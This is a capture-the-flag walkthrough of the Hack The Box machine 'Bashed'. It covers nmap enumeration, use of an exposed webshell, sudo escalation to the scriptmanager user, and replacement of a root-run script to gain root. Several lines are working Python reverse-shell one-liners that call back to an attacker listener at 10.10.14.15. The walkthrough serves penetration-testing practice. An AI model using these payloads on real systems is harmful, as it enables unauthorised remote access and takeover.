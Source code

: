 # Bashed Walkthrough

## Enumeration
Initial nmap scan... Apache web server on port 80 is interesting...
```
# Nmap 7.93 scan initiated Sat Jun  3 13:20:27 2023 as: nmap -Pn -n -sVC -T4 -p- -v -oN initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.083s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  3 13:20:56 2023 -- 1 IP address (1 host up) scanned in 29.20 seconds
```

Gobuster for good measure.
```
```
Found a webshell at 10.10.10.68/dev.

Created a reverse shell calling back to a listener.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",8443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

What privileges do we have? 
```
sudo -l
```
scriptmanager does not require a password for sudo.

Run /bin/bash as scriptmanager and spawn a shell.
```
sudo -u scriptmanager /bin/bash
python -c ‘import pty; pty.spawn(“/bin/bash”);’
or
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",7443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
scriptmanager is used to run scripts in the script folder.
```
ls -la
```

Create a scripted payload for scriptmanager to run, replacing the original text.py with our payload.
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",8443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```
Catch the reverse shell with our listener. root.

[<img height="600" width="600px" src="https://github.com/zmiddle/htb/blob/main/bashed/bashed_pwned.png" />](https://www.hackthebox.com/achievement/machine/259690/118) 
